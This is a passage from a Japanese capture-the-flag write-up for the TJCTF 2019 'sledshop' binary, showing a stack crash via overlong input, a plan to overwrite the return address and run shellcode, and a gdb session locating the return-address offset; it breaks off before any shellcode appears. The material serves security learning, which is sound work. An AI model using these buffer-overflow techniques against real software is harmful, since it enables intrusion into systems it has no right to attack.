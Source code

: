 早速繋いでみる。
簡単にstackdump起こせる。

```bash-statement
$ nc p1.tjctf.org 8010
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Sorry, we are closed.
timeout: the monitored command dumped core
$
```


ここまで来て戦略を
1. returnアドレス書き変えで無限ループを実現。
2. shellcode送る
3. shellcode実行

と立てた。

### IPの取得


まずはgdbで追いながらスタック上の戻り番地を特定。
1. gdbでrunして
2. 文字列コピペして
3. segmentation fault起こさせて
4. $eipに入ってる値からproduct_nameの81～84番目で行けそうなことが判明。

```bash-statement
$ gdb ./sledshop
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
77 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 3 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./sledshop...(no debugging symbols found)...done.
gef➤  run
Starting program: /home/saru/wani-writeup/2019/04-tjctf/bin-silly-sledshop/sledshop
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
AAAAABBABBCCACCDDADDEEAEEFAFFFGGAGGHHAHHIIAIIJJAJJKKAKKLLALLMMAMMNNANNOOAOOPPAPPQQAQQRRARRSSASSTTTATT
Sorry, we are closed.

```